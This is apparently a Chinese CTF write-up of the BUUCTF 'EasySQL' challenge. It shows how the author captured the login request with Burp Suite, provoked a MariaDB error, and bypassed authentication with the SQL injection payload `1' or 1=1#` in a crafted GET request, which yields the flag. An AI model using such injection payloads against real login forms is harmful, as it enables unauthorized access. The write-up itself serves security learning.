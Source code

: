 ```yaml
---
title: 极客大挑战 2019 EasySQL
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

启动靶机，看到如下网页：

![](https://p.sda1.dev/13/06389bed26e67392efcea676663e7467/image.png)

根据题目名字，可以确定这是一道 SQL 注入题，打开 F12 翻看源代码，发现登录框是一个表单，将用户名和密码以 `Request Params`（其实就是 `GET`） 的形式传入 `check.php`

![](https://p.sda1.dev/13/f14587237edfdbfe7dbf1f5971768b8b/image.png)

## 确定请求体

但无法确定具体的请求，于是我们使用 Burp Suite 进行一次抓包，打开 Burp Suite，进入代理，打开内嵌浏览器，开启拦截

![](https://p.sda1.dev/13/d277053d8385513f65a4346863978579/image.png)

中间过程直接放行，直到点击`登录`的时候，暂时先不放行，查看请求体

![](https://p.sda1.dev/13/c57108edc284109f362325509aa9ec39/image.png)

```http
GET /check.php?username=root&password=123456 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

得出具体的请求方式是 `GET /check.php?username={username}&password={password}`

## 尝试注入

尝试性地往用户名输入框中输入 `root'`，密码随便输，提示如下

![](https://p.sda1.dev/13/4435ef1306e400b126532e0c56fd74c9/image.png)

提示发现这是 MariaDB 数据库，当 MySQL 做就行了，从这一段话中我们还能够猜测一下这条查询语句到底是什么，才导致会出这条错

```sql
SELECT * FROM XXX WHERE username='$user' AND password='$pass';
```

在这种情况下如果我的 `username` = `root'`，那么语句就会变成这样

```sql
SELECT * FROM XXX WHERE username='root'' AND password='$pass';
```

## 万能密码

可以看到这样就会产生格式错误，那么我们就得想办法绕过这个查询，就得用到万能密码，我们尝试将 SQL 语句更改成一种 100% 通过的样子：

```sql
SELECT * FROM XXX WHERE username='1' or 1=1#' AND password='1';
```

即 `username` = `1' or 1=1#`，`password` = `1`，其中 `username` 的值就是万能密码，将 Burp Suite 拦截到的请求进行修改，改成

```http
GET /check.php?username=1%27+or+1%3D1%23&password=1 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

之后放行该请求，得到 Flag，`flag{6965df19-7ebe-42f7-b396-14d380a5d9e7}`

![](https://p.sda1.dev/13/0e789a154b3ae53ff5f35d58a4c9baf2/image.png)